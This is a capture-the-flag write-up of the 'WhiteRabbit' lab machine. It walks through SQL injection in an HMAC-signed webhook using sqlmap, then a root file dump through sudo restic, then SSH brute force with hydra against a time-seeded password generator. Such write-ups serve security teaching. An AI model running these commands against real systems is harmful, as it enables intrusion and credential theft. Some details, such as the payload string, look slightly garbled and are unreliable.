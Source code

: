 
**Platform:** Linux  
**IP:** 10.10.11.63  
**Difficulty:** Insane  
**Author:** NoSec  

## Reconnaissance

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```

Service info: The OS is likely Linux-based, and the Caddy web server is running.

---

## Preparation

- **Edit hosts file**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    ```

- **Clock skew fix (if needed)**
    ```bash
    sudo rdate -n whiterabbit.htb
    ```

---

## Subdomain & Web Exploration

**Subdomain discovery:**

By brute-forcing the `/status/` endpoint on `whiterabbit.htb` (e.g., with gobuster or ffuf), I discovered `status.whiterabbit.htb`, which runs Uptime Kuma. A bit more digging (on [redacted URL]) led me to `/status/temp/`, where I found new subdomains:

- GoPhish: `ddb0<link>.whiterabbit.htb`
- Wiki.js: `a668<link>.whiterabbit.htb`

**Webhook investigation:**

The Wiki.js endpoint (on [redacted URL]) revealed a webhook pointing to `28e<link>.whiterabbit.htb`, which looked suspicious.

---

## Exploitation

### SQLi in Webhook

The webhook required an `x-gophish-signature` HMAC signature. I extracted the secret key from:

Source: [redacted URL]  
Key: `3CWV<key>`

I generated the HMAC using CyberChef ([redacted URL]) and tried an SQLi payload:

```bash
{"campaign_id":2,"email":"test \$"","message":"Clicked Link"}
```

I got a MySQL error, confirming the endpoint is vulnerable!

---

### Burp Suite Automation

Manual testing was too slow, so I wrote a Burp extension that automatically adds the HMAC header:

```python
# (Burp extension code here — kept unchanged for clarity)
```

Installed via Burp's Custom Extensions feature:  
🔗 https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/

---

### SQLmap Attack

I automated the SQLi attack with sqlmap:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Date                | Command                                                 |
|-----|---------------------|----------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                              |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL]`               |

---

## Privilege Escalation

### Exploiting Restic

I found a Restic repository at [redacted URL] with the password: `ygcsv<redacted>`.  
Using it, I created a backup of `/root/`:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```

I extracted an SSH private key for the user `morpheus` and logged in:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt
```

✅ User flag acquired!

---

### Neo Password Generation

I found a binary at `/opt/neo-password-generator/neopassword-generator` and analyzed it with Ghidra.  
It uses `gettimeofday()` as a seed:

- Seed formula: `tv_sec * 1000 + tv_usec / 1000`
- Then it generates a 20-character password using `rand() % 62`.

Since Neo executed it at `2024-08-30 14:40:42`, I knew the `tv_sec`, but had to bruteforce the microseconds (0–999).  
Here’s a sample Python brute-force script:

```python
# (Python bruteforce snippet shown earlier)
```

Generated passwords were saved:

```bash
python3 password_generator.py > passwords.txt
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Password found:
```nginx
WB<pass>
```

Once inside via SSH, I just used:

```bash
sudo -su
```

...and boom — got the root flag:

```bash
root@whiterabbit:~# ls
root.txt
```

---

### 🧠 Notes & Reflections – What I learned from this box

- **Webhook & SQLi abuse:** The vulnerabilities in Uptime Kuma were exciting to explore, especially with the custom HMAC handling.  
- **Restic exploitation:** Surprisingly, this backup tool enabled full privilege escalation.  
- **Binary analysis:** Brute-forcing a password generated via `gettimeofday()` required real brainwork.  
- **Automation:** Using Burp Suite and sqlmap saved tons of time, especially dealing with the HMAC headers.

---

### ⚠️ Mistakes, Pitfalls & Tips

- **Watch your clock skew!** If the system time is off, SSH and other steps can fail.  
- **Be patient with brute-force.** It took a while to find the `/status/temp/` endpoint — using the right wordlist matters.  
- **Document without spoilers.** Don’t give everything away so others can still enjoy the challenge.  
- **Double-check everything.** I verified the HMAC key twice before launching sqlmap.

---

### ✅ Summary

WhiteRabbit is a beautifully crafted box — it walks you through solid web exploitation and creative Linux privesc.  
The combination of Uptime Kuma, SQLi, Restic, and binary analysis makes this a real treat for any pentester.

Both flags captured — user and root — so I’m very satisfied. 🚀

---

**Highly recommended** for anyone who enjoys challenges and prefers creative Linux pwns over AD boxes.  
If you’ve got questions — hit me up! 💬
